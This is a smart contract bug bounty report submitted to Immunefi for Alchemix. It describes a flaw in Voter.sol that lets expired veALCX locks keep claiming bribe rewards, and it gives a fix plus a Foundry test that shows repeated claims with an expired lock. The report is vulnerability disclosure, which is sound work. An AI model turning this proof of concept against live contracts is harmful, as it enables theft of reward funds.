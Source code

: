 
# Expired locks can be used to claim rewards

Submitted on Sun May 12 2024 06:32:07 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31082

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
This report is so short because the bug is straightforward to explain and prove.

## Vulnerability Details

Expired locks can keep claiming rewards for any bribe.

## Recommended Fix
The fix requires checking that **block.timestamp** is larger than the lock's expiration date when claiming bribes using the `claimBribes(...)` function in the `Voter` smart contract.

The permanently fixed function is:
```
function claimBribes(address[] memory _bribes, address[][] memory _tokens, uint256 _tokenId) external {
    require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId));

    require(IVotingEscrow(veALCX).lockEnd(_tokenId) > block.timestamp, "token expired");

    for (uint256 i = 0; i < _bribes.length; i++) {
        IBribe(_bribes[i]).getRewardForOwner(_tokenId, _tokens[i]);
    }
}
```

## Impact

Stealing bribe rewards using expired tokens can lead to solvency issues.
        
## Proof of concept
## Proof of Concept

This proof of concept can be added to `src/test/Voting.t.sol`. It demonstrates how a user can create a lock for a min. of 1 epoch, and keep claiming rewards forever (even after expired).

```
    function testClaimingBribesWithExpiredLock() public {

        // User 1
        uint256 tokenId1 = createVeAlcx(holder, TOKEN_1, nextEpoch, false);
        
        address bribeAddress = voter.bribes(address(sushiGauge));
        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // Step 1- Holder votes
        hevm.prank(holder);
        voter.vote(tokenId1, pools, weights, 0);

        console2.log("------------------------------------------------------------------------");
        console2.log("bal balance of holder before voting", IERC20(bal).balanceOf(holder));

        // Step 2- Start second epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        bool expired =  veALCX.lockEnd(tokenId1) < block.timestamp;
        assertEq(expired, true, "token should be expired");

        // Step 3- Holder claims
        hevm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);
        
        // Step 4- Start third epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // Step 5- Holder claims
        hevm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);

        console2.log("------------------------------------------------------------------------");
        console2.log("bal balance of holder after voting", IERC20(bal).balanceOf(holder));
        
    }
```